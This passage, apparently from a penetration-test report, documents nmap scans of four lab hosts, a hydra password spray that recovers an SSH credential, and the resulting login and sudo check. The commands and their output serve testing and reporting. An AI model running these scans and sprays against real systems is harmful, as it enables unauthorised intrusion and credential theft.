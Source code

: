 ```bash

Nmap done: 256 IP addresses (4 hosts up) scanned in 8.45 seconds
```

#### Service Enumeration Evidence

```bash
# Comprehensive Service Scan
nmap -sS -sV -sC -p- 192.168.78.10,192.168.78.20,192.168.78.30,192.168.78.40

# Key Service Findings
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu
80/tcp   open  http        Apache httpd 2.4.41
3389/tcp open  rdps        Windows RDP
445/tcp  open  microsoft-ds Windows SMB
3306/tcp open  mysql       MySQL 8.0.26

# Target Service Mapping
192.168.78.10 - SSH (22), HTTP (80)        [web-server-01]
192.168.78.20 - SSH (22), RDP (3389)       [app-server-01]
192.168.78.30 - MySQL (3306)               [db-server-01]
192.168.78.40 - SMB (445), RDP (3389)      [dc-01]
```

---

### 💥 Phase 2: Initial Access Evidence

#### SSH Credential Attack Evidence

```bash
# Password Spray Execution
hydra -L common_usernames.txt -P common_passwords.txt ssh://192.168.78.10

[ATTEMPT] target 192.168.78.10 - login "svc_webapp" - pass "March2025!" - 247 of 1024
[DATA] attacking ssh://192.168.78.10:22/
[22][ssh] host: 192.168.78.10   login: svc_webapp   password: March2025!
[STATUS] attack finished for 192.168.78.10 (valid pair found)

# SUCCESS: Credentials compromised after 12 hours of systematic testing
```

#### Initial Foothold Verification

```bash
# SSH Access Established
ssh svc_webapp@192.168.78.10
Password: March2025!

Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-84-generic x86_64)
Last login: Mon Aug 14 09:15:23 2025 from 192.168.78.100

svc_webapp@web-server-01:~$ id
uid=1001(svc_webapp) gid=1001(svc_webapp) groups=1001(svc_webapp)

svc_webapp@web-server-01:~$ sudo -l
User svc_webapp may run the following commands:
    (ALL) NOPASSWD: /usr/bin/systemctl restart apache2

# EVIDENCE: Initial access with service restart privileges
```

---